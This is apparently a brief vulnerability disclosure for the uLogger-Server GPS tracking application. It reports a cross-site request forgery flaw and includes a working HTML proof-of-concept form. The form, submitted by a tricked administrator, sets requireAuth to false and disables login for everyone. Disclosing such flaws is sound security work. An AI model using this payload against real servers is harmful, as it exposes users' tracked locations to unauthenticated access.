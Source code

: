 uLogger-Server is a featured GPS tracking server that is developed in PHP and Javascript.  
ulogger-server is vulnerable to CSRF which enables an Auth Bypass.  The following POC, if triggered by an administrator, will disable the authentication requirement on the ulogger-server, allowing unauthanticated users access to the application:
```
<html><form enctype="application/x-www-form-urlencoded" method="POST" action="http://[uLogger-Server]/utils/saveconfig.php"><table>
<tr><td>requireAuth</td><td><input type="text" value="false" name="requireAuth"></td></tr>
</table><input type="submit" value="http://[uLogger-server]/utils/saveconfig.php"></form></html>
```
